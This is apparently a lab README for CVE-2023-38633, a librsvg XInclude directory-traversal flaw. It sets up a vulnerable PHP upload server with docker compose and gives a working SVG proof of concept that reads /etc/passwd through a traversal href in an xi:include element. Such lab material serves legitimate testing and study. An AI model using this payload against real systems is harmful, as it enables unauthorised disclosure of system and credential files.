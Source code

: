 # Librsvg XInclude Arbitrary file reading (CVE-2023-38633)

[中文版本(Chinese version)](README.zh-cn.md)

Librsvg is a free software SVG rendering library written as part of the GNOME project, intended to be lightweight and portable.

A directory traversal problem in the URL decoder of librsvg before 2.56.3 could be used by local or remote attackers to disclose files (on the local filesystem outside of the expected area), as demonstrated by `href=".?../../../../../../../../../../etc/passwd` in an xi:include element.

References:

- <https://www.canva.dev/blog/engineering/when-url-parsers-disagree-cve-2023-38633/>
- <https://gitlab.gnome.org/GNOME/librsvg/-/issues/996>

## Vulnerable Environment

Executing following command to start a PHP server that uses librsvg 2.50.7 to handle SVG images:

```
docker compose up -d
```

After the server is started, browse `http://your-ip:8080` to see the upload page.

## Exploit

Use `<xi:include>` to read the local file by this POC:

```xml
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<svg width="300" height="300" xmlns:xi="http://www.w3.org/2001/XInclude">
  <rect width="300" height="300" style="fill:rgb(255,255,255);" />
  <text x="10" y="100">
    <xi:include href=".?../../../../../../../../../../etc/passwd" parse="text" encoding="UTF-8">
      <xi:fallback>file not found</xi:fallback>
    </xi:include>
  </text>
</svg>
```

Upload this SVG image to server, you will see the `/etc/passwd` that is embedded in the output image:

![](1.png)
